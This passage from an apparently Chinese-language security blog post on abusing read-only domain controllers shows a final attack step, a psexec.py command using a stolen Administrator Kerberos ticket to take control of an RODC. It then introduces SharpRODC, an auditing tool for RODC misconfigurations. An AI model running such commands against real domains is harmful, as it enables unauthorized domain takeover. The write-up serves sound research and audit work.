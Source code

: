 （4）最后，我们可以使用这个票据随时获取 RODC 服务器控制权限，如下所示。

```bash
export KRB5CCNAME=Administrator.ccache
python3 psexec.py -k corp.local/Administrator@rodc.corp.local -no-pass -dc-ip dc01.corp.local
```

![image-20231126174245180](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231126174245180.png)

# SharpRODC

为了对只读域控制器的安全性进行审计，我创建了 [SharpRODC](https://github.com/wh0amitz/SharpRODC) 项目，这是一个简单的 .NET 工具，用于与 RODC 相关的错误配置。

该工具从活动目录中枚举以下内容：

- RODC 对象的 DACL
- RODC 的 Krbtgt 账户
- “Allowed RODC Password Replication Group” 对象的 DACL
- “Denied RODC Password Replication Group” 对象的 DACL
- RODC 对象的 managedBy 属性值
- 委派了 RODC 管理权限的用户或组的 DACL
- RODC 对象的 msDS-RevealOnDemandGroup 属性值
- RODC 对象的 msDS-NeverRevealGroup 属性值
- RODC 对象的 msDS-RevealedList 属性值
- RODC 在域分区对象上的 DACL

# Reference

- [AD DS: Read-Only Domain Controllers](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/cc732801(v=ws.10))

- [Appendix A: RODC Technical Reference Topics](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/cc754218(v=ws.10))
